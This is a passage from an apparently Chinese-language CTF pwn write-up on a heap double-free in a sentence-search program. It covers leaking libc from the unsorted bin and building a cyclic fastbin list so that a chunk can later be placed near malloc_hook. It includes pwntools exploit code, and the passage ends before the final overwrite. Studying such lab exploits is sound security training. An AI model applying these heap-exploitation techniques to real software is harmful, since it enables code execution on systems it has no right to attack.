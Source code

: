 可以看出，在每次釋放 i->sentence_ptr 之前，這個句子的內容就會全部被設置爲 `\x00` ，由於單詞結構體中存儲的單詞只是句子的一個指針，所以單詞也會被置爲 `\x00` 。該句子對應的那些單詞仍然是存在於鏈表中的，並沒有被刪除，因此每次搜索單詞的時候，仍然會判斷。看起來由於句子內容被置爲 `\x00` 可以防止通過 `*i->sentence_ptr` 驗證。然而，由於 chunk 被釋放後會被放到 bin 中，當 chunk 不是 fastbin 或者 chunk 被重新分配出去使用的時候，也就有可能會產生 double free 的情況。此外，當句子被 `memset` 的時候，單詞雖然都變爲了 `\x00` ，但是我們仍然可以通過兩個 `\x00` 的比較來繞過 `memcmp` 的檢測。

### 利用

#### 利用思路

基本利用思路如下

- 利用 unsorted bin 地址泄漏 libc 基地址
- 利用 double free 構造 fastbin 循環鏈表
- 分配 chunk 到 malloc_hook 附近，修改malloc_hook 爲 one_gadget

#### 泄漏 libc 地址

這裏我們分配一個 small bin 大小的 chunk ，當它被釋放後，就會放入到 unsorted bin 中。因而，只要 `unsorted bin` 的地址的起始字節不是 `\x00` 便可以通過驗證。同時，我們可以構造 `\x00` 來進行比較，從而通過驗證。具體如下

```python
def leak_libc():
    smallbin_sentence = 's' * 0x85 + ' m '
    index_sentence(smallbin_sentence)
    search_word('m')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')
    search_word('\x00')
    p.recvuntil('Found ' + str(len(smallbin_sentence)) + ': ')
    unsortedbin_addr = u64(p.recv(8))
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('n')
    return unsortedbin_addr
```

#### 構造 fastbin 循環鏈表

由於我們最後希望在 malloc_hook 處分配 chunk，而一般分配 malloc_hook 附近的 chunk 一般大小都是0x7f。即，我們所需要設置的設置的 fast bin 的數據字節部分的大小爲 0x60。這裏我們按照如下方式構造

1. 分別索引句子a，索引句子b，索引句子c，則此時單詞鏈表中索引的句子的相對順序爲c->b->a。假設句子 a 爲'a' * 0x5d+' d '，句子 b 爲 'b' * 0x5d+' d '，句子c類似。
2. 索引單詞d，三個均刪除，則此時 fastbin 中的鏈表情況爲 a->b->c->NULL，這是因爲首先釋放的是句子c，最後釋放的是句子 a 。這時，搜索單詞時`*i->sentence_ptr` 對於a, b 來說都是可以繞過的。
3. 我們此時再次刪除搜索單詞 `\x00`。首先遍歷的是 c，但是 c 的驗證不通過；其次遍歷的是b，驗證通過，我們將其釋放；其次遍歷的是a，驗證通過，但是我們不刪除。則此時 fastbin 的情況爲 b->a->b->a->...。即已經構成了double free b的情況。由於我們先前爲了 leak libc 還建立一個句子，所以還有一個單詞可以比較，這裏我們也不刪除。

具體代碼如下

```python
    # 2. create cycle fastbin 0x70 size
    index_sentence('a' * 0x5d + ' d ')  #a
    index_sentence('b' * 0x5d + ' d ')  #b
    index_sentence('c' * 0x5d + ' d ')  #c

    # a->b->c->NULL
    search_word('d')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')

    # b->a->b->a->...
    search_word('\x00')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')
```